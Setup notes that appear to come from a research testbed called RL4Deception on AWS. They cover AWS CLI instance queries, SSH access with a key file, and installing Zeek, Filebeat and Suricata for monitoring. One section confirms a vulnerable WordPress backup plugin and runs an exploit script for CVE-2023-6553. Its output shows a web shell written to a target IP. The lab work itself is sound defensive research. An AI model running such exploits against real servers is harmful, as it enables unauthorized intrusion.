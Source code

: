 - get controller IP
```
aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=Controller" \
  --query "Reservations[].Instances[].PublicIpAddress" \
  --output text
```

- get internal IPs
```
aws ec2 describe-instances \
  --query 'Reservations[*].Instances[*].PrivateIpAddress' \
  --output text
```

- ssh into controller
```
chmod 400 RL4Deception.pem
ssh -i Network_tf/RL4Deception.pem ubuntu@3.148.118.121
```

- copy files from local to the controller, e.g., hosts.txt
```
scp -i Network_tf/RL4Deception.pem hosts.txt ubuntu@3.148.118.121:/home/ubuntu/
```

- verify SSH connectivity to all hosts
```
./checkSSH.sh 
```

```
📡 Verifying SSH connectivity to all hosts as 'ubuntu'...

IP Address      Status    
----------      ------    
10.0.1.204      ✅
10.0.2.87       ✅
10.0.2.226      ✅
10.0.3.151      ✅
10.0.3.65       ✅
10.0.3.136      ✅
10.0.3.67       ✅
```

- verify the existence of CVE-2023-6553 on PublicWeb1

```
ssh -i ~/RL4Deception.pem ubuntu@10.0.1.204
ls -l /var/www/html/wp-content/plugins/
grep -i version /var/www/html/wp-content/plugins/backup-backup/backup-backup.php
```

```
   *     Version: 1.3.7
  if (!defined('BMI_VERSION')) {
    define('BMI_VERSION', '1.3.7');
```

- exploit the backup vulnerability at PublicWeb1

```
cd Attacker/CVE-2023-6553/
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
python exploit.py -u http://3.144.10.220
```

```
python exploit.py -u http://3.144.10.220      

http://3.144.10.220 is vulnerable to CVE-2023-6553
Initiating shell deployment. This may take a moment...
Writing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Shell written successfully.
# 
```

- install Zeek on each host
```
sudo apt update -y
sudo apt install -y wget gnupg lsb-release
echo 'deb http://download.opensuse.org/repositories/security:/zeek/xUbuntu_22.04/ /' | sudo tee /etc/apt/sources.list.d/security:zeek.list
curl -fsSL https://download.opensuse.org/repositories/security:zeek/xUbuntu_22.04/Release.key | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/security_zeek.gpg > /dev/null
sudo apt update
sudo apt install zeek-6.0
```

- configure & start Zeek
```
sudo sed -i 's!^interface=.*!interface=ens5!' /opt/zeek/etc/node.cfg
sudo setcap cap_net_raw,cap_net_admin+eip /opt/zeek/bin/zeek
sudo /opt/zeek/bin/zeekctl deploy
sudo /opt/zeek/bin/zeekctl status
sudo tail -n5 /opt/zeek/logs/current/conn.log
```

- Centralize Zeek Logs
```
curl -L -O https://artifacts.elastic.co/downloads/beats/filebeat/filebeat-9.0.0-amd64.deb
sudo dpkg -i filebeat-9.0.0-amd64.deb
sudo filebeat modules enable zeek
sudo apt update -y
sudo apt install -y suricata
sudo sed -i   's/^\(\s*-\s*interface:\s*\).*$/\1ens5/'   /etc/suricata/suricata.yaml
sudo systemctl daemon-reload
sudo systemctl restart suricata
sudo systemctl status suricata --no-pager
```
